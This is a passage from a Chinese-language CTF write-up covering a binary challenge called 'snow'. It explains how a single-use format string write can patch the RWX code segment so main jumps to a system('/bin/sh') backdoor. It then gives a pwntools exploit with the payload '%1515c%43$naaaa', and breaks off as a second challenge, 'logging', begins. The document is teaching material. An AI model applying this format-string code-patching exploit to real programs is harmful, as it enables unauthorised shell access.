 ![image-20220130163459561](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-59acc4fde500d8d5cba1abe3da4b3086cb08dc68.png)

![image-20220130163156490](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-b29851dc351ab26d59bb1f2bf678efdf4c73746e.png)

![image-20220130170119300](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-3e17a0ff478470629764191d6a8356ab682fd0cb.png)

![image-20220130163757240](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-24d2b17a297c32cef24238829613beb0074df6fb.png)

##### 思路：

利用插件 **LazyIDA** 可以发现程序存在格式化字符串漏洞，但是仅能利用一次。并且通过checksec和gdb命令**vmmap**发现，程序代码段.text为**RWX段**（可读、可写、可执行），并且程序还存在后门函数**system('/bin/sh')**,那么我们就可以利用格式化字符串漏洞将main函数汇编改为 **jmp 0x4008b7**，让程序跳转并执行后门函数。

利用格式化字符串的任意地址写功能，强制修改main函数的汇编代码，将 0x4008b0 处的 **mov eax,0** 更改为 **jmp 0x4008b7**，只需要改动2个字节`EB 05`，也就是十进制数1515。

![image-20220130164105620](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-57dac10f207746af9993da09936a90975205cb69.png)

##### EXP：

```python
from pwn import *
context.log_level = 'debug'

p = process('./snow')
#r = remote(, )
e = ELF('./snow')

def s(content):
  p.send(content)

def sl(content):
  p.sendline(content)

def sla(signal, content):
  p.sendlineafter(signal, content)

sla('you?\n',b'%1515c%43$naaaa')
p.interactive()
```

#### 例二 logging

题目来自某高校校赛

![image-20220130153603544](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-7fb39f8b39e913c2842c1d3f69822300b0227d0d.png)

![image-20220130153229541](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-49a107895d44682d7638102c78e5c33ea6c75a29.png)

![image-20220130153247794](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-117cfdff398fe38dc384af9d0fda919b2a693196.png)

##### 思路：
